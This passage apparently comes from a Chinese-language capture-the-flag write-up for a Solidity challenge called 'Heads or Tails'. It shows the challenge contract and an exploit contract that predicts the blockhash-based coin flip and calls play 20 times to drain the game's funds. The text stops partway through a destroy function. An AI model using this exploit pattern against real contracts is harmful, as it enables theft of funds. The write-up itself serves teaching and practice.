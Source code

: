 
## Heads or Tails

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

    contract HeadsOrTails is CtfFramework{

        using SafeMath for uint256;

        uint256 public gameFunds;
        uint256 public cost;

        constructor(address _ctfLauncher, address _player) public payable
            CtfFramework(_ctfLauncher, _player)
        {
            gameFunds = gameFunds.add(msg.value);
            cost = gameFunds.div(10);
        }
        
        function play(bool _heads) external payable ctf{
            require(msg.value == cost, "Incorrect Transaction Value");
            require(gameFunds >= cost.div(2), "Insufficient Funds in Game Contract");
            bytes32 entropy = blockhash(block.number-1);
            bytes1 coinFlip = entropy[0] & 1;
            if ((coinFlip == 1 && _heads) || (coinFlip == 0 && !_heads)) {
                //win
                gameFunds = gameFunds.sub(msg.value.div(2));
                msg.sender.transfer(msg.value.mul(3).div(2));
            }
            else {
                //loser
                gameFunds = gameFunds.add(msg.value);
            }
        }

    }
    ```

同样是计算伪随机数，每次 play 需要 0.1 ether，并且从题目合约账户中转出 0.05 ether 作为奖励。因此需要调用 20 次 play 来转出账户中的 2 ether

同样需要在部署合约后调用题目合约的 ctf_challenge_add_authorized_sender 函数来将攻击合约地址加入白名单。并且做完之后 selfdestruct 来转回攻击合约中的 3 ether 会比较好

???+ done "exp"
    ```solidity
    contract Exploit {
        HeadsOrTails challenge;
        constructor(address addr) public {
            challenge = HeadsOrTails(addr);
        }
        function exp() public payable {
            bytes32 entropy = blockhash(block.number - 1);
            bytes1 coinFlip = entropy[0] & 1;
            for (int i = 0; i < 20; i++) {
                if (coinFlip == 1) {
                    challenge.play.value(0.1 ether)(true);
                } else {
                    challenge.play.value(0.1 ether)(false);
                }
            }
        }
        function() public payable {}
        function destroy(address addr) public {